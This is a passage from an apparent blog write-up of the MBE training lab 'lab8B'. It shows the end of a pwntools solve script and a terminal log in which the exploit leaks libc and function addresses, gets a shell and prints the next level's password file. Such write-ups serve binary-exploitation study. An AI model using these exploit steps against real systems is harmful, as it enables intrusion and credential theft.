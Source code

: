     log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/rh0gue/Documents/MBE/lab08/8B/lab8B'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight bash %}
lab8B@warzone:/tmp/lab8B$ python solve.py 
[*] For remote: solve.py HOST PORT
[+] Starting program '/levels/lab08/lab8B': Done
[9525]
[*] Paused (press any to continue)
[+] libc base found @ 0xb755a000
[+] printVector func found @ 0xb77380e9
[+] secret func found @ 0xb77380a7
[*] Switching to interactive mode
Which favorite? Which vector? +------------------------------------------------------------+
|                                                            |
|  1. Enter data                                          :> |
|  2. Sum vectors                                         :] |
|  3. Print vector                                        :3 |
|  4. Save sum to favorites                               8) |
|  5. Print favorites                                     :O |
|  6. Load favorite                                       :$ |
|  9. Get help                                            :D |
|                                                            |
+------------------------------------------------------------+
$ cat /home/lab8A/.pass
Th@t_w@5_my_f@v0r1t3_ch@11
$  
{% endhighlight %}

***NOTE: I had a lot of issues with buffering when writing the exploit for this lab, so I had to remove most of my initial `recvuntil()` calls to prevent my exploit from hanging.***

